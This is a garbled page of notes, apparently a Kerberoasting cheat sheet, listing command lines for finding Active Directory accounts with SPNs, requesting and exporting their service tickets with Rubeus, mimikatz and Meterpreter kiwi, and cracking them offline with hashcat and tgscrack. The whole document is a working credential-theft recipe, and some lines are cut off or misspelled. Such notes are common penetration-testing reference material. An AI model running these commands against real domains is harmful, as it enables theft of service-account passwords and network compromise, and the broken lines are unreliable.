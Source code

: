 # Kerberoast

1. Get Users with SPNs
GetUserSPNs.ps1

2. Get Service Tickets
Add-Type -AssemblyName System.Identit

3. Extract Tickets


4. Crack Ticket

setspn –a DC1/SVC_SQLService.ignite.local:60111 ignite\SVC_SQLService
MSSQLsvc/DC1@ignite.loal

Windows

setspn -T ignite -Q */*

./Rubeus.exe kerberoast /outfile:hashes.kerberoast

hashcat -m 13100 --force -a 0 hashes.kerberoast dict.txt

kerberos::list
kerberos::list /export


Linux

./GetUserSPNs.py -request -dc-ip 192.168.1.105 ignite.local/yashika



Remote

load kiwi
kerberos_ticket_list
kiwi_cmd kerberos::list

kiwi_cmd kerberos::list /export


https://blog.cobalt.io/kerberoast-attack-techniques-79dd0166a65d


https://github.com/leechristensen/tgscrack


go run tgscrack.go -hashfile hash -wordlist /usr/share/wordlists/rockyou.txt


Import-Module .\Find-PotentiallyCrackableAccounts.ps1
Find-PotentiallyCrackableAccounts -FullData -Verbose
Import-Module .\Export-PotentiallyCrackableAccounts.ps1
Export-PotentiallyCrackableAccounts







